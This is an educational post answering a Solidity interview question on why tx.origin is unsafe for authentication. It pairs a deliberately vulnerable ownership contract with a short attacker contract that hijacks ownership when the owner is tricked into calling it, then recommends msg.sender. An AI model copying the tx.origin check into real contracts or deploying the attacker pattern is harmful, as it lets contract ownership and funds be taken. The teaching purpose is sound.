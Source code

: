 # RareSkills Solidity Interview Question #11 Answered: Why shouldn’t tx.origin be used for authentication?

This series will provide answers to the list of [Solidity interview questions](https://www.rareskills.io/post/solidity-interview-questions) that were published by [RareSkills.](https://www.rareskills.io/).

![Alt text](media/Question_11.jpeg)

## *Question 11 (Easy): Why shouldn’t tx.origin be used for authentication?*

**Answer:** `tx.origin` shouldn’t be used for authentication because an attacker could execute a phishing attack and authenticate as `tx.origin`. Since `tx.origin` is the address that initiated the transaction, an attacker could influence a user to execute a malicious transaction on the attacker’s contract and then call a function to authenticate on the target contract. In this scenario, `tx.origin` is the victim’s address and the target contract would authenticate the request and allow the attacker to execute transactions as if the attacker were `tx.origin`.

## Demonstration:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.21;

/**
 *  This is the target contract that uses `tx.origin` for authentication.
 *  This is problematic because `tx.origin` represents the original
 *  sender of the transaction and can be exploited by an attacker.
 */
contract TargetContract {
    address public owner;

    constructor() {
        // Set the owner to be the account that deploys the contract.
        owner = msg.sender;
    }

    function changeOwner() external {
        /**
         *  This check is vulnerable! If a different contract calls this
         *  function, tx.origin would still refer to the original user who
         *  initiated the transaction, not the contract that's currently
         *  calling this function.
         */
        require(tx.origin == owner, "Only the owner can change ownership");

        // This could be set to the attacker's contract.
        owner = msg.sender;
    }
}

/*
 *  This is the attacker's contract.
 *  It is designed to exploit the TargetContract's use of `tx.origin`.
 */
contract AttackerContract {
    TargetContract targetContract;  // Reference to the TargetContract.

    constructor(address _victimAddress) {
        // Initialize with the address of the TargetContract.
        targetContract = TargetContract(_victimAddress);
    }

    /*
     * This function will be used to trick the owner of TargetContract to call
     * it. When this function is called, it then calls the changeOwner()
     * function on TargetContract. Because the TargetContract's changeOwner
     * function checks tx.origin and not msg.sender, it will see the original
     * transaction initiator (the unsuspecting user) as the sender, and not
     * this contract, thereby changing the ownership to this attacker contract.
    */
    function trickTargetContractOwnerToCallThis() external {
        targetContract.changeOwner();
    }
}
```

## Further Discussion:

Due to this vulnerability, it is best practice to use `msg.sender` instead of `tx.origin`, especially for authentication, since `msg.sender` is the address that called the current function and is less susceptible to impersonation or manipulation.


Medium article: https://medium.com/coinmonks/rareskills-solidity-interview-question-11-answered-why-shouldnt-tx-origin-dfa1f4eb593c